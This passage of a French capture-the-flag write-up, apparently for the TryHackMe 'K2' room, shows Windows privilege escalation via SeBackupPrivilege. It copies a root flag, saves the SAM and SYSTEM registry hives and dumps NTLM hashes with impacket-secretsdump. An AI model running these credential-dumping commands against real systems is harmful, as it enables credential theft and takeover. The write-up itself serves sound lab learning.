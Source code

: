 ```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

![Import DLL](/images/THM-K2/Import_DLLs.png)

3. Nous pouvons maintenant copier des fichiers situés dans des répertoires restreints

```
cd C:\Users\Administrator\

Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\j.smith\Documents\root.txt -Overwrite
```

4. Avec les commandes ci-dessus, nous copierons le drapeau root dans `C:\Users\j.smith\Documents`

![Read Rood flag](/images/THM-K2/root_flag_k2MC.png)


## What is the Administrator's NTLM hash?

### Elévation de Privilèges

![SeBackUpPriv](/images/THM-K2/SeBackUpPriv.png)

Grâce au privilège `SeBackupPrivilege`, nous pouvons obtenir des copies des ruches SAM et SYSTEM.

![SeBackUpPriv information](/images/THM-K2/SeBackupPrivilege_info.png)
_[Source](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges)_

```
reg save hklm\sam C:\Windows\Temp\SAM

reg save hklm\system C:\Windows\Temp\SYSTEM
```

![reghives copy](/images/THM-K2/reghives_copy.png)

Nous transférons ensuite les ruches sur notre machine locale.

```
download C:\Windows\Temp\SAM

download C:\Windows\Temp\SYSTEM
```

Avec `impacket`, nous pouvons extraire les hashs en utilisant les ruches que nous avons téléchargées.

```
impacket-secretsdump -sam SAM -system SYSTEM local
```

![Admin hash](/images/THM-K2/Admin_hash.png)
